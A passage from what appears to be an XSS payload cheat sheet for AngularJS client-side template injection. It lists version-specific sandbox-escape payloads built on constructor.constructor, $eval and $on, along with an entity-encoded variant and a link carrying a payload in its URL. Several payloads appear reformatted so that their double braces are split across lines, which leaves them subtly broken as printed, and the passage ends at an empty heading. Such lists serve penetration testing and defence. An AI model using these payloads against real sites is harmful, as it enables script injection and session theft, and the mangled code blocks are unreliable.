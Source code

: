 # XSS in Angular and AngularJS

## Client Side Template Injection

The following payloads are based on Client Side Template Injection.

### Stored/Reflected XSS - Simple alert in AngularJS

`ng-app` directive must be present in a root element to allow the client-side injection (cf. [AngularJS: API: ngApp](https://docs.angularjs.org/api/ng/directive/ngApp)).

> AngularJS as of version 1.6 have removed the sandbox altogether

AngularJS 1.6+ by [Mario Heiderich](https://twitter.com/cure53berlin)

```javascript
{
  {
    constructor.constructor("alert(1)")();
  }
}
```

AngularJS 1.6+ by [@brutelogic](https://twitter.com/brutelogic/status/1031534746084491265)

```javascript
{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}
```

Example available at [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?a=<brute+ng-app>%7B%7B[].pop.constructor%26%2340%27alert%5Cu00281%5Cu0029%27%26%2341%26%2340%26%2341%7D%7D)

AngularJS 1.6.0 by [@LewisArdern](https://twitter.com/LewisArdern/status/1055887619618471938) & [@garethheyes](https://twitter.com/garethheyes/status/1055884215131213830)

```javascript
{
  {
    (0)[(a = "constructor")][a]("alert(1)")();
  }
}
{
  {
    $eval.constructor("alert(1)")();
  }
}
{
  {
    $on.constructor("alert(1)")();
  }
}
```

AngularJS 1.5.9 - 1.5.11 by [Jan Horn](https://twitter.com/tehjh)
